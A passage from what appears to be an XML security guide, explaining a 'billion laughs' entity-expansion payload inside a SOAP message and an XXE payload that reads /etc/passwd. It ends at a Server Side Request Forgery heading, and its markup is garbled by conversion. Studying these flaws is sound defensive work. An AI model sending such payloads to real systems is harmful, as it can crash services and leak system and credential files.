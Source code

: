 The entity `LOL9` will be resolved as the 10 entities defined in `LOL8`; then each of these entities will be resolved in `LOL7` and so on. Finally, the CPU and/or memory will be affected by parsing the 3\*10^9 (3,000,000,000) entities defined in this schema, which could make the parser crash.

The Simple Object Access Protocol (SOAP) specification forbids DTDs completely. This means that a SOAP processor can reject any SOAP message that contains a DTD. Despite this specification, certain SOAP implementations did parse DTD schemas within SOAP messages. The following example illustrates a case where the parser is not following the specification, enabling a reference to a DTD in a SOAP message :

<?XML VERSION="1.0" ENCODING="UTF-8"?>
`<!DOCTYPE SOAP-ENV:ENVELOPE [ `
` `

<!ELEMENT SOAP-ENV:ENVELOPE ANY>
<!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
<!ENTITY LOL "LOL">
` <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">`
` <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">`
` <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">`
` <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">`
` <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">`
` <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">`
` <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">`
` <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">`
` <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">`
`]> `
`<SOAP:ENVELOPE ENTITYREFERENCE="`**`&LOL9;`**`" XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/"> `
` `<SOAP:BODY>` `
`  `<KEYWORD XMLNS="<nowiki>[`URN:PARASOFT:WS:STORE`](URN:PARASOFT:WS:STORE)</nowiki>`">FOO`</KEYWORD>
` `</SOAP:BODY>
</SOAP:ENVELOPE>

### Reflected File Retrieval

Consider the following example code of an XXE:

<?xml version="1.0" encoding="ISO-8859-1"?>
`<!DOCTYPE root [`
` `

<!ELEMENT includeme ANY>
` <!ENTITY `**`xxe`**` SYSTEM "`**`/etc/passwd`**`">`
`]>`
<root>**`&xxe;`**</root>

The previous XML defines an entity named `xxe`, which is in fact the contents of `/etc/passwd`, which will be expanded within the `includeme` tag. If the parser allows references to external entities, it might include the contents of that file in the XML response or in the error output.

### Server Side Request Forgery
